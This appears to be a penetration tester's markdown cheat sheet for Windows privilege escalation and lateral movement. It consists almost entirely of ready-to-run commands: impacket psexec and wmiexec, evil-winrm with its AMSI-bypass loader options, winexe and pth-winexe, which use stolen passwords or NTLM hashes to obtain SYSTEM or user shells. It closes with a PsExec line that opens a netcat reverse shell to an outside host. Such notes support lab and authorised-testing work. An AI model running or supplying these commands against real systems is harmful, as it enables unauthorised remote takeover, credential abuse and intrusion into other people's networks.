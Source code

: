 # privesc tools

## check if win-logon-creds are working

Note: psexec & evil-winrm uses port:5985 (powershell remote access)

### psexec.py | smbexec | wmiexec

NOTE: psexec, smbexec will give SYSTEM shell. wmiexec will give user shell.

```bash
$ python3 /opt/impacket/examples/psexec.py USER:'PASS'@$IP
$ impacket-psexec DOMAIN/USER@IP -hashes :NTLMHASH

$ impacket-wmiexec DOMAIN/USER@IP -hashes :NTLMHASH

```

### evil-winrm

```bash
# only USER, no DOMAIN needed
$ evil-winrm -i IP -u <USER> [-H NT-HASH | -p PASS]

# custom options
PS> menu
[+] Dll-Loader
[+] Donut-Loader
[+] Invoke-Binary
[+] Bypass-4MSI
[+] services
[+] upload
[+] download
```

### winexe

```bash
$ winexe -U 'DOMAIN/USER%PASS' //IP cmd.exe
```

### pth-winexe

```bash
$ pth-winexe -U 'DOMAIN/USER%HASH' //IP cmd.exe
# [OR]
$ pth-winexe [--system] -U 'administrator%NTLM:HASH' //IP cmd.exe
# --system needs local admin hash
```

## PsExec.exe

```bash
PS> .\PsExec64.exe -accepteula -i -s <shell.exe>
# i: Run process interactively
# s: Run remote process in the System account.

> PSExec64.exe -i -u "nt authority\local service" <shell.exe>
# u: Run process as user-account <>

# Run executable with a different user:pass
PS> .\PsExec.exe -accepteula -u <user> -p <pass> nc.exe IP PORT -e cmd.exe
```
